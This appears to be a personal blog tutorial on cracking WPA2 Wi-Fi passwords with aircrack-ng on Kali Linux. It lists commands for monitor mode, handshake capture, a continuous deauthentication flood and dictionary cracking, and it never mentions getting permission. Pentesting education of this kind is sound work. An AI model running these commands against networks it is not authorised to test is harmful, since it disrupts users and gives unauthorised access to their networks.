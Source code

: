 ```yaml
---
title: "Cracking Wpa2"
date: 2023-07-11T12:36:55+02:00
tags: ["pentesting", "linux"]
author: "Andy Sukowski-Bang"
description: "This short tutorial walks you through cracking WPA2 networks which use pre-shared keys using the [aircrack-ng](https://www.aircrack-ng.org) suite of tools to assess WI-FI network security. All of the necessary tools come preinstalled with the [Kali Linux](https://www.kali.org) distribution."
---
```


This short tutorial walks you through cracking WPA2 networks which use
pre-shared keys using the [aircrack-ng][1] suite of tools to assess WI-FI
network security. All of the necessary tools come preinstalled with the [Kali
Linux][2] distribution. The `#` in front of commands means, that they have to
be executed as the `root` user, e.g. using `sudo`.

## Wireless card into monitor mode

List all possible programs that could interfere with the wireless card. If
`kill` is specified, it will try to kill all of them.

```
# airmon-ng check kill
```

Enable monitor mode on an interface (here it's `wlp3s0`) and check if it worked

```
# airmon-ng start wlp3s0
# airmon-ng
```

## Capture handshake

List Wi-Fi networks and their BSSIDs, Channels, etc.

```
# airodump-ng wlp3s0mon
```

Narrow search down to specific BSSID (MAC address).

```
# airodump-ng wlp3s0mon -d <BSSID>
```

Capture WPA2 handshake and write it to file (e.g. `handshake1-01.cap`). Remember
to change interface name, if needed.

```
# airodump-ng -w handshake -c <channel> --bssid <BSSID> wlp3s0mon
```

**Optional in other terminal:** Simultaniously send deauthentication packets to
clients on the network to capture WPA2 handshake by forcing clients to
reauthenticate. Without this step, it might take some time to capture the
handshake.

```
# aireplay-ng --deauth 0 -a E0:28:6D:F3:B6:5D wlp3s0mon
```

## Crack password

After storing the handshake in e.g. `handshake1-01.cap`, we can finally crack the
password using `aircrack-ng`.

```
# aircrack-ng handshake1-01.cap -w dictionary.txt
```

Alternatively, we can extract the handshake from the `.cap` capture file and
convert it to a modern hashcat compatible hash file using
[hashcat.net/cap2hashcat][3], which can then be cracked using [hashcat][4].

[1]: https://www.aircrack-ng.org
[2]: https://www.kali.org
[3]: https://hashcat.net/cap2hashcat
[4]: https://hashcat.net/hashcat
